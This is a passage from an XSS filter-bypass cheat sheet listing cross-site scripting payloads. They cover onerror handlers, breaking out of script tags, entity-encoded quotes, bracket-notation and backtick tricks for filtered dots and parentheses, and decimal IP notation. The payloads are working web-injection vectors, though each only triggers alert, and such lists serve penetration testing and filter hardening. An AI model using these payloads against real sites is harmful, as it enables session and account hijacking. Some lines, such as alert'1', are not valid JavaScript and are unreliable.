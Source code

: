 ```javascript
<img src='1' onerror='alert(0)' <
```

### Bypass quotes for string

```javascript
String.fromCharCode(88,83,83)
```

### Bypass quotes in script tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

### Bypass quotes in mousedown event

You can bypass a single quote with &#39; in an on mousedown event handler

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```

### Bypass dot filter

```javascript
<script>window['alert'](document['domain'])</script>
```

Convert IP address into decimal format: IE. `http://192.168.1.1` == `http://3232235777`
http://www.geektools.com/cgi-bin/ipconv.cgi

### Bypass parenthesis for string

Úselo en un vector HTML o inyección de javascript cuando no se permiten paréntesis:

```javascript
alert`1`

setTimeout`alert\u0028document.domain\u0029`;

setTimeout`alert\x28document.domain\x29`

setInterval`alert\x28document.domain\x29`

setTimeout'alert\x28document.domain\x29'

setInterval'alert\x28document.domain\x29'

alert`1`

alert'1'

alert"1"

<svg onload=alert&lpar;1&rpar;>

<svg onload=alert&#40;1&#41>

(alert)(1)

a=alert,a(1)
```